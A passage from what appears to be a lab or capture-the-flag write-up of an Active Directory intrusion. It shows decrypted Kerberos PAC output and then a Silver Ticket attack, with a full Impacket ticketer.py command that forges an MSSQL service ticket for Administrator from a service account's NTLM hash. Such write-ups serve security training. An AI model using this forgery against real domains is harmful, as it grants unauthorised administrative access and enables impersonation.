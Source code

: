```
[*]     User Account Control      : (16) USER_NORMAL_ACCOUNT
[*]     Extra SID Count           : 1
[*]     Extra SIDs                : S-1-18-1 Authentication authority asserted identity (SE_GROUP_MANDATORY, SE_GROUP_ENABLED_BY_DEFAULT, SE_GROUP_ENABLED)
[*]     Resource Group Domain SID :
[*]     Resource Group Count      : 0
[*]     Resource Group Ids        : 
[*]     LMKey                     : 0000000000000000
[*]     SubAuthStatus             : 0
[*]     Reserved3                 : 0
```

For brevity, I've snipped out all of the other PAC sections, except for the [PAC_LOGON_INFO](https://learn.microsoft.com/en-us/previous-versions/aa302203(v=msdn.10)?redirectedfrom=MSDN#pac-credential-information-pac_logon_info) structure which contains: `the credential information for the client of the Kerberos ticket.`.

### Forging Tickets

Since we have the credentials of `svc_sql`, we were able to decrypt a service ticket issued to `chloe.lim` and parse the `PAC` structure. With this knowledge, we can reverse the process and artificially forge a `PAC` structure for any user we want, encrypt it with `svc_sql`'s password, and create a valid service ticket for that user. This is known as a [Silver Ticket Attack](https://www.crowdstrike.com/en-us/cybersecurity-101/cyberattacks/silver-ticket-attack/).

With this forged ticket, we can access the `MSSQL` service on `sql01.antennae.rv` as any user we want - including privileged users, like `Administrator`. We can forge this ticket using [ticketer.py](https://github.com/fortra/impacket/blob/master/examples/ticketer.py). The following information is required to forge a ticket, most of which can be grabbed from `BloodHound`:

1. `-spn`: The SPN of the service we want to access. In this case, it's `MSSQLSvc/sql01.antennae.rv`.
2. `-domain`: The domain name, which is `antennae.rv`.
3. `-domain-sid`: The domain SID, which can be found in `BloodHound` or by running `whoami /user` on any domain-joined machine. In this case, it's `S-1-5-21-1843653573-2831615454-1469364877`.
4. `-nthash`: The `NTLM` hash of the service account, which we have already computed to be `dafede3a0d35ddb28147bd418e4cd53b`.

With this information, we can forge a ticket for the `Administrator` user:

```
~$ ticketer.py -spn 'MSSQLSvc/sql01.antennae.rv' -domain 'antennae.rv' -domain-sid 'S-1-5-21-1843653573-2831615454-1469364877' -nthash 'dafede3a0d35ddb28147bd418e4cd53b' Administrator               
Impacket v0.13.0.dev0+20250813.95021.3e63dae - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for antennae.rv/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```
